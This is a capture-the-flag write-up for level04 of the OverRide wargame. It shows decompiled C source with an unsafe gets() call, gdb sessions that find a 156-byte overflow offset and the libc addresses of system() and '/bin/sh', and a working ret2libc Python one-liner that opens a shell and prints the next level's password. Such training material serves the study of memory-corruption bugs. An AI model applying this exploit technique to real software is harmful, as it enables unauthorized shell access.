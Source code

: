# Level 04

<h3>source.c</h3>

```console
int main(void) {
  int   status;     // esp+0x1c
  char  str[128];   // esp+0x20
  int   res         // esp+0xa8
  pid_t pid;        // esp+0xac
  


  pid = fork();
  memset(str, 0, 128);
  res = 0;
  startus = 0;
  if (pid == 0) {
    prctl(1, 1);
    ptrace(0, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(str);
  }
  else {
    while ((ptrace(3, pid, 44, 0) != 0xb))
    {
      wait(&status);
      if ((status & 0x7f) == 0)
      {
        puts("child is exiting...");
        return (0);
      } 
    }
    puts("no exec() for you");
    kill(pid, 9);
  }
  return (0);
}
```

<h3>Analysis</h3>

Another program that is hard to reverse, this time we have a `fork()` and on of the child `pid == 0` is doing unsafe `gets()`

There is no `.pass` or `system()` can be seen in this program, so we can use `reb2libc` to spawn a shell

Our target this time will be to use the vulnebility of `gets()` to overwrite the return address and point it to `system()` inside `libc`

<h3>Exploit</h3>

First we need to use `set follow-fork-mode child` on gdb to follow a child process, then we can try to find the offset where we could overwrite the return address

```console
(gdb) set follow-fork-mode child
(gdb) r <<< $(python -c "print 'a'*157")
child is exiting...

Starting program: /home/users/level04/level04 <<< $(python -c "print 'a'*157")
[New process 3684]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3684]
0xf7e40061 in ?? () from /lib32/libc.so.6
(gdb)
```

The offset this time is quite big, and after trying for a while, we can see that the offset of `156 bytes` can reach the return address

Next will be to find the address of `system()` and `/bin/sh` in libc

```console
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

Great now we have `0xf7e6aed0` as `system()` address and `0xf7f897ec` for `/bin/sh` address

Time to test our exploit

```console
level04@OverRide:~$ (python -c "print 'a' * 156 + '\xd0\xae\xe6\xf7' + 'bbbb' + '\xec\x97\xf8\xf7'"; cat - ) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```